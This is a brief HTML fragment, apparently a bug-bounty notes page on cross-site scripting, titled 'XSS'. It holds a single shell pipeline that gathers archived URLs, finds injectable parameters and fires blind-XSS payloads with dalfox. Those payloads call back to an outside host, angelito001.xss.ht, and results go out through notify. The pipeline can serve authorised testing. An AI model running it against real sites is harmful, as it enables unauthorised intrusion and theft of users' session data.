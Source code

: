 <h1>XSS</h1>

<h3>Automated tool</h3>
<p><code>waybackurls @ | gf xss | qsreplace -a | Gxss | dalfox pipe -b angelito001.xss.ht -F | grep '[POC]' | notify -provider-config provider-config.yaml</code></p>

<h4>To test:</h4>
<ul>
  <li>Files</li>
</ul>
